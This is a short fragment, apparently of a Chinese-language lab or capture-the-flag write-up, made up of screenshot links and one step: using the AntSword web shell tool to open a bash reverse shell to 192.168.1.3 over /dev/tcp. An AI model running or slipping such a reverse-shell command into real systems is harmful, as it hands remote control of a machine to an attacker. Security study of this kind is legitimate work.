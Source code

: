 ![image-20250316140507676](./assets/image-20250316140507676.png)

![image-20250316140515228](./assets/image-20250316140515228.png)



尝试利用蚁剑反弹shell

```
bash -i >& /dev/tcp/192.168.1.3/283 0>&1
```

![image-20250316214624621](assets/image-20250316214624621.png)
